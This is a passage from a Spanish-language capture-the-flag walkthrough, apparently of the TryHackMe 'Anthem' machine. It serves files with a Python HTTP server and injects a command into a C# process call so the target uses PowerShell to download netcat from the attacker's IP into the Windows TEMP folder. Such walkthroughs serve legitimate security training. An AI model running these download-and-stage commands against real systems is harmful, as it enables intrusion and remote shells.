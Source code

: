 ![anthem_bash_pyRCE_dirTEMP](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/THM/anthem/anthem_bash_pyRCE_dirTEMP.png)

▸ Ponernos en escucha donde tenemos el binario `nc`:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

▸ Agregamos la linea que va a descargar el binario y lo guardara en la carpeta `TEMP` del sistema:

```py
...
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = @"/c powershell IWR -uri http://10.2.65.117:8000/nc64.exe -OutFile c:\\Windows\\TEMP\\nc.exe";\
...
```

▸ Listamos el directorio `TEMP` para validar:

```py
...
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = @"/c dir ..\..\..\\Windows\\TEMP";\
...
```

